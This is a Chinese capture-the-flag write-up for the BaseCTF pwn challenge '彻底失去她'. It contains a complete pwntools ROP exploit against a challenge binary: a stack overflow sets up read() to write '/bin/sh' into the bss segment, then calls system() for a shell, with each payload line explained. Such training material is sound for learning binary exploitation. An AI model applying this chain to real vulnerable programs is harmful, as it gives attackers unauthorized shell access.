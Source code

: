 # Basectf pwn方向“彻底失去她”

by Maple

和“我把她丢了”比较类似，都是ROP简单构造，但是源码中没有bin/sh，需要通过read读取到bss段，再进行调用

需要注意read的三个参数顺序是rdi，rsi，rdx，我们应该依次布置为0，buf,0x10，此时调用read函数就是read(0,buf,0x10)

```
from pwn import *
p = process("./cdsqt")
elf = ELF('./cdsqt')

system = elf.plt['system']
read = elf.plt['read']
pop_rdi = 0x401196
pop_rsi = 0x4011ad
pop_rdx = 0x401265
bss = 0x4040A0

p.recv()

payload = b'a'*(0xa+8)
payload+=p64(pop_rdi)+p64(0)
payload+=p64(pop_rsi)+p64(bss)
payload+=p64(pop_rdx)+p64(0x10)
payload+=p64(read)#read(0,buf,0x10)
payload+=p64(pop_rdi)+p64(bss)+p64(system)

p.sendline(payload)
p.sendline(b'/bin/sh\x00')

p.interactive()
```

解释内容；

## payload = b'a'*(0xa+8)

填充字节，用于覆盖返回地址之前的内存空间，使其到达返回地址的位置

## payload+=p64(pop_rdi)+p64(0)

将0弹入rdi寄存器，因为rdi是read函数的第一个参数，表示文件描述符，0代表标准输入

## payload+=p64(pop_rsi)+p64(bss)

将bss段的地址弹到rsi寄存器，rsi是read函数的第二个参数，表示读取数据的缓冲区地址

## payload+=p64(pop_rdx)+p64(0x10)

将0x10弹到rdx寄存器，rdx是read函数的第三个参数，表示读取的字节数

## payload+=p64(read)

调用read函数，这个时候read函数被构造为了`read(0,bss,0x10)`,即从标准输入读取0x10个字节的数据到bss段

## payload+=p64(pop_rdi)+p64(bss)+p64(system)

将bss段的地址弹到rdi寄存器，作为system函数的参数，然后调用system

## 这里为什么没有ret了

建议自己搜索学习一下

提示bss段地址为`0x4040A0`,而“我把她丢了”的字符串bin/sh的地址为`0x402008`